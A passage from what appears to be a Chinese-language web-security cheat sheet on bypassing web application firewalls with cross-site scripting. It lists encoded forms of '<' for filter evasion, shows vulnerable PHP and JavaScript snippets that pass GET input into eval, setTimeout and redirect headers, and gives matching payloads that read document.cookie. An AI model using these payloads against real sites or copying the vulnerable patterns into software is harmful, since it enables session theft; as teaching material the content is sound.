     &#X3C
    &#X03C
    &#X003C
    &#X0003C
    &#X00003C
    &#X000003C
    &#X3C;
    &#X03C;
    &#X003C;
    &#X0003C;
    &#X00003C;
    &#X000003C;
    \x3c
    \x3C
    \u003c
    \u003C

### 3. 绕过 WAF(Web Application Firewall)的方法 - 跨站脚本

通用问题

-   存储型 XSS

如果攻击者已经让 XSS 绕过过滤器，WAF 将无法阻止攻击透过。

-   基于 Javascript 的反射型 XSS



    实例: <script> ... setTimeout(\"writetitle()\",$_GET[xss]) ... </script>
    利用: /?xss=500); alert(document.cookie);//

-   基于 DOM 的 XSS



    实例: <script> ... eval($_GET[xss]); ... </script>
    利用: /?xss=document.cookie

#### 通过请求重定向构造 XSS

-   存在漏洞代码



     ...
     header('Location: '.$_GET['param']);
     ...

同样包括：

    ...
     header('Refresh: 0; URL='.$_GET['param']);
     ...

-   这种请求不会绕过 WAF



     /?param=javascript:alert(document.cookie)
